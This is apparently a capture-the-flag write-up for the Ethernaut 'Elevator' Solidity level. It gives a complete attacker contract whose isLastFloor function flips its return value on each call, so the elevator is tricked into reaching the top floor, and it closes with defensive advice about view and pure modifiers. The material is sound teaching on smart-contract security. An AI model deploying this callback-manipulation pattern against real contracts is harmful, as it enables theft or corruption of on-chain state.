 # Elevator

## Challenge Statement

This elevator won't let you reach the top of your building. Right?
Things that might help:

    Sometimes solidity is not good at keeping promises.
    This Elevator expects to be used from a Building.


## Analysis

The external interface here can be implemented by our own contract. We simply need to create a contract which calls the goTo function and have a function which flips the isLastFloor boolean value, starting at false.

## Solution

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}


contract Building {

    bool public flip;
    Elevator targetElevator = Elevator(<ethernaut_contract_address>);

    constructor() public {
        flip = true;
    }

    function go() public {
        targetElevator.goTo(10);
    }

    function isLastFloor(uint) public returns (bool) {
        flip = !flip;
        return flip;
    }

}
```

##  Moral

You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().